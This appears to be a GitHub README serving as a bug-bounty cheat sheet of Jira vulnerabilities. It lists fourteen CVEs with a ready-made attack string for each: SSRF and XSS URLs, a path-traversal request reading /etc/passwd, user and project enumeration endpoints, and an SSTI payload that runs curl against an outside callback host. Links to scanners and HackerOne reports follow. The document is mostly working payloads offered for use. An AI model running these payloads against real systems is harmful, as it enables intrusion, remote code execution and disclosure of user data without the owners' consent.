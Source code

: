 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2018-5230 (XSS)
**3** | CVE-2018-20824 (XSS)
**4** | CVE-2019-3396 (Path Traversal)
**5** | CVE-2019-3402 (XSS)
**6** | CVE-2019-3403 (User Enumeration)
**7** | CVE-2019-8442 (Sensitive Information Disclosure)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-8451 (SSRF)
**10** | CVE-2019-11581 (SSTI)
**11** | CVE-2020-14178 (Project Key Enumeration)
**12** | CVE-2020-14179 (Sensitive Information Disclosure)
**13** | CVE-2020-14181 (User Enumeration)
**14** | CVE-2020-36289 (Username Enumeration)
**15** | Tools
**16**| Reports

___
#### CVE-2017-9506 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```

##### CVE-2018-5230 (XSS)
```
http://<JIRA>/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm
```
#### CVE-2018-20824 (XSS)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

#### CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```


#### CVE-2019-3402 (XSS)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

#### CVE-2019-3403 (User Enumeration)
```
Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
```

#### CVE-2019-8442 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

#### CVE-2019-8449 (User Information Disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

#### CVE-2019-8451 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
b. Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
```

#### CVE-2020-14181 (User Enumeration)

```
Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>
```
#### CVE-2020-36289 (Username Enumeration)
```
Navigate to <JIRA_URL>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
```
```
 For target.atlassian(.)net, check this endpoints: 
/servicedesk/customer/user/signup [Able to login? Vuln:)]
/jira/projects [Can see projects? Vuln:) Now click on sign in and use OAuth]
```

```
jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular
```

```
jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100
```

```
Resolution found
/rest/api/2/resolution
```














#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
[Automation Script](https://github.com/MayankPandey01/Jira-Lens) 

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
* https://hackerone.com/reports/713900
* https://hackerone.com/reports/139970
* https://hackerone.com/reports/197726
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
